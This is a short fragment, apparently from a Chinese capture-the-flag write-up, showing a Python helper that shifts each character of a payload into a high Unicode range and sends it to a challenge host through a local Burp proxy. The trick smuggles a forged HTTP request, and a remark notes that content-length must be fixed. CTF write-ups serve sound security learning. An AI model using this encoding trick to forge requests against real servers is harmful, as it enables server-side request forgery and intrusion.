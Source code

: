 ```python
def payload_encode(raw):
    ret = u""
    for i in raw:
        ret += chr(0x0100+ord(i))
    return ret

payload = payload_encode(payload)

pro = {'http': 'http://127.0.0.1:8011',
'https': 'http://127.0.0.1:8011'
}

r = requests.get('http://77cb6778-efc8-49b4-9567-fdf189136b3a.node4.buuoj.cn:81/core?q=' + urllib.parse.quote(payload),proxies=pro, verify=False)

```

中间部分是伪造的请求，需要注意content-length，直接放在burp中发包，burp会自动更新content-length